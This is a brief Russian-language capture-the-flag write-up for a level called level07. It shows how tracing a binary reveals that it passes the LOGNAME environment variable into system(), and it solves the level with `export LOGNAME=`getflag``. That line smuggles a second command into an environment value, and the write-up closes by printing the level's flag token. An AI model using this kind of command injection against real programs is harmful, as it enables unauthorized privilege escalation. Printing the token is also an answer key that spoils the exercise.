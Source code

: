 В папке исполняемый файл, который при запуске выводит level07

Прогоняем файл через ltrace. Видим строки:
	getenv("LOGNAME") = "level07"
	system("/bin/echo level07
	
Выставляем значение в переменную окружения LOGNAME:
	export LOGNAME=\`getflag\`
	
Обратные кавычки дают указание shell исполнить программу перед передачей в echo, поэтому запустится getflag

token: fiumuikeil55xe9cu4dood66h